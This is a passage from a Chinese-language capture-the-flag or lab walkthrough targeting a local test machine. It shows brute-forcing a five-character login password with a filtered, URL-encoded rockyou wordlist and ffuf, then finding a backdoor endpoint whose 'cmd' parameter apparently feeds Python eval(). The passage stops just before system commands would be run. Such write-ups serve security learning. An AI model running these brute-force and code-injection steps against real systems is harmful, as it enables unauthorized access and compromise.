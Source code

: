 这次我们发现了三个路径：`/login`, `/test`, `/backdoor`。

## 1. 登录页面爆破

经过测试发现，`/login` 路径接受一个 `password` 参数，并提示密码长度为 5。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl 'http://192.168.205.128:8000/login?password=test'
Password length is 5
```

这暗示我们需要爆破一个长度为 5 的密码。然而，直接使用常规字典爆破会遇到问题，因为后端对特殊字符的长度计算方式可能与我们预想的不同。正确的做法是对字典中的每一个密码进行 URL 编码。

1. 从 `rockyou.txt` 中筛选出所有长度为 5 的密码：

   ```bash
   grep -x '^.\{5\}$' /usr/share/wordlists/rockyou.txt > 5z.txt
   ```

2. 使用 Python 对筛选后的字典进行 URL 编码：

   ```bash
   python3 -c 'import sys, urllib.parse; [print(urllib.parse.quote(line.strip())) for line in sys.stdin]' < 5z.txt > 5z_u.txt
   ```

3. 使用 `ffuf` 和编码后的字典进行爆破，并过滤掉返回内容为空的响应 (`--fs 0`)：

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
   └─$ ffuf -u "http://192.168.205.128:8000/login?password=FUZZ" -w 5z_u.txt --fs 0
   ...
   %21%40%23%24%25         [Status: 200, Size: 25, Words: 1, Lines: 1, Duration: 2ms]
   ...
   ```

我们找到了一个有效的密码 `%21%40%23%24%25`，它解码后是 `!@#$%`。

## 2. 后门与远程代码执行（RCE）

用找到的密码访问登录页面，返回了一个新的路径：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl 'http://192.168.205.128:8000/login?password=%21%40%23%24%25'
/backdoooooooooooooooooor
```

访问这个 `/backdoooooooooooooooooor` 路径，并尝试传入 `cmd` 参数执行命令。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl 'http://192.168.205.128:8000/backdoooooooooooooooooor?cmd=id'
<built-in function id>
```

返回结果 `<built-in function id>` 表明后端很可能使用了 Python 的 `eval()` 或类似函数来执行代码，并且没有导入 `os` 模块。为了执行系统命令，我们需要先导入 `os` 模块。
